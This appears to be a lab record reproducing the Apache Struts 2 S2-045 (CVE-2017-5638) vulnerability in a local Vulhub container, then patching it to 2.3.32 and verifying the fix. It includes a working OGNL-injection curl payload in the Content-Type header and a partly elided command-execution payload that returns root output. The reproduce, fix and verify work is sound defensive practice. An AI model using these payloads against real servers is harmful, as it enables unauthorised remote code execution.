


# CVE-2017-5638 (Struts 2 S2-045) — experiment record

This folder contains the vulnerable-environment patch and the evidence for the CVE stage of
Work 1.

## Result summary

| Item | Value |
| --- | --- |
| Vulnerability | CVE-2017-5638 / Apache Struts 2 S2-045 |
| Vulnerable image | `vulhub/struts2:2.3.30` (Vulhub `struts2/s2-045`) |
| Fixed build | `struts2-core` **2.3.32** (first 2.3.x release with the fix) |
| Exploitation result | OGNL evaluation confirmed (`vulhub: 54289`); command execution `uid=0(root)` |
| Fixed result | Same requests return the normal upload page; no `vulhub` header, no command output |
| Environment | Docker Desktop 29.8.2, WSL 2.6.1, Windows 11 22H2 |

## 1. Start the vulnerable environment

```bash
git clone --depth 1 --filter=blob:none --sparse https://github.com/vulhub/vulhub.git
cd vulhub
git sparse-checkout set struts2/s2-045
cd struts2/s2-045
docker compose up -d
```

The original `docker-compose.yml` uses `vulhub/struts2:2.3.30` and publishes port 8080.
On this machine `127.0.0.1:8080` was already occupied by a local CEF debugging listener, so
the container was reached through the machine's LAN address (`http://192.168.3.9:8080/`).
The service itself is the standard Struts 2 Showcase file-upload page.

## 2. Reproduce

### 2.1 OGNL evaluation (official Vulhub proof)

```bash
curl -i -s -X POST "http://192.168.3.9:8080/" \
  -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data" \
  --data-binary ""
```

Observed response:

```http
HTTP/1.1 200 OK
vulhub: 54289
Content-Type: text/html; charset=UTF-8
Server: Jetty(9.2.11.v20150529)
```

`233*233` was evaluated by the server, which proves arbitrary OGNL execution.

### 2.2 Command execution

The same entry point with a `ProcessBuilder` payload runs `id` inside the container:

```bash
curl -s -X POST "http://192.168.3.9:8080/" \
  -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)....(#cmd='id')...}.multipart/form-data" \
  --data-binary ""
```

Observed body:

```text
uid=0(root) gid=0(root) groups=0(root)
```

The full payload is in `docs/evidence/cve/02-vulnerable-rce.txt`. The container runs as root;
the impact is limited to the container in this lab, but on a real host it is full remote code
execution as the servlet-container user.



## 3. Root cause

1. A multipart request reaches `JakartaMultiPartRequest.parseRequest()`.
2. The parser rejects the malformed `Content-Type` and builds an error message through
   `LocalizedTextUtil.findText(...)`, passing the raw header as a message parameter.
3. Struts 2 message rendering calls `TextParseUtil.translateVariables()`, which evaluates
   `%{...}` sequences as OGNL.
4. The attacker controls that expression; clearing context restrictions and using
   `ProcessBuilder` turns it into arbitrary command execution.

In one sentence: untrusted request metadata is fed into a message-localization path that
performs OGNL evaluation, so the header becomes code (CWE-917, expression-language injection).

## 4. Fix

`Dockerfile.fixed` starts from the vulnerable image and changes the dependency in
`/usr/src/pom.xml`:

```dockerfile
RUN sed -i 's|<version>2.3.30</version>|<version>2.3.32</version>|' pom.xml \
    && rm -rf /root/.m2/repository/org/apache/struts/struts2-core/2.3.30 \
    && rm -rf target
```

`docker-compose.fixed.yml` builds that image and publishes port 8081:

```bash
docker compose -f docker-compose.fixed.yml build
docker compose -f docker-compose.fixed.yml up -d
```

Why it works: 2.3.32 is the first 2.3.x release that contains the S2-045 fix. The patched
message-localization path no longer evaluates untrusted message parameters as OGNL, so a
`Content-Type` containing `%{...}` is treated as plain text.

## 5. Verification

The same two requests were replayed against `http://192.168.3.9:8081/`:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Jetty(9.2.11.v20150529)
```

- no `vulhub: 54289` header;
- no `uid=...` body;
- the normal "Struts2 Showcase - Fileupload sample" page is returned.

Regression check: a normal multipart upload to `/doUpload.action` (field `upload`, caption
`regression`) returned HTTP 200 and the upload form; the fixed container reports
`struts2-core-2.3.32.jar` in its local Maven repository.



## 6. Evidence files

| File | Content |
| --- | --- |
| `docs/evidence/cve/00-docker-ps.txt` | vulnerable and fixed containers running |
| `docs/evidence/cve/01-vulnerable-header.txt` | response headers with `vulhub: 54289` |
| `docs/evidence/cve/02-vulnerable-rce.txt` | `uid=0(root)` command output |
| `docs/evidence/cve/03-fixed-version.txt` | installed `struts2-core-2.3.32.jar` |
| `docs/evidence/cve/04-fixed-header.txt` | same header request after the fix |
| `docs/evidence/cve/05-fixed-rce.txt` | same RCE request after the fix |
| `docs/evidence/cve/06-regression.txt` | normal file upload still works |

## 7. Note on the port

The lab uses 8080 for the vulnerable build and 8081 for the fixed build so both can run at the
same time. On a clean machine, port 8080 alone is enough; the port number is not part of the
vulnerability.
